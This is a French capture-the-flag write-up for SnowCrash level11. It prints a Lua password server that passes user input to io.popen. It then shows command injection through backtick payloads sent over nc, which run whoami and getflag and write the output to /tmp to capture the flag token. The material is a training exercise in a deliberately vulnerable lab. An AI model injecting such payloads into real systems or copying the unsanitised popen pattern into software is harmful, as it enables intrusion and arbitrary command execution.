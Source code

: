 On trouve dans le dossier **home** un fichier **level11.lua** qui contient :

```lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
	prog = io.popen("echo "..pass.." | sha1sum", "r")
	data = prog:read("*all")
	prog:close()
	data = string.sub(data, 1, 40)
	return data
end

while 1 do
	local client = server:accept()
	client:send("Password: ")
	client:settimeout(60)
	local l, err = client:receive()
	if not err then
		print("trying " .. l)
		local h = hash(l)
		if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
			client:send("Erf nope..\n");
		else
			client:send("Gz you dumb*\n")
		end
	end
	client:close()
end
```

On observe que le programme est lancé sur **127.0.0.1:5151**, donc pour pouvoir interagir avec on utilise :
<pre><code>> nc 127.0.0.1 5151
Password:
Erf nope..</code></pre>

En regardant le programme de plus près, on se rend compte qu'une injection est possible <code>io.popen("echo "..pass.." | sha1sum", "r")</code> car il exécute la variable **pass**, qui est notre input.
De plus la deuxième partie du code ne sert à rien car peut importe le mot de passe, le programme se termine par un simple message.
> Le bon mot de passe est: **NotSoEasy** (rajouter un -n devant pour que cela fonctionne)

On essaie :
<pre><code>> nc 127.0.0.1 5151
Password: `whoami > /tmp/test`
Erf nope..
level11@SnowCrash:~$ cat /tmp/test
flag11
</code></pre>
> On stocke le résultat dans un fichier car sinon il n'y a pas d'affichage : il ne s'agit pas d'un <code>client:send()</code>

<pre><code>> nc 127.0.0.1 5151
Password: `getflag > /tmp/test`
Erf nope..
level11@SnowCrash:~$ cat /tmp/test
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
</code></pre>

<pre>
<code>> getflag</code>
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
</pre>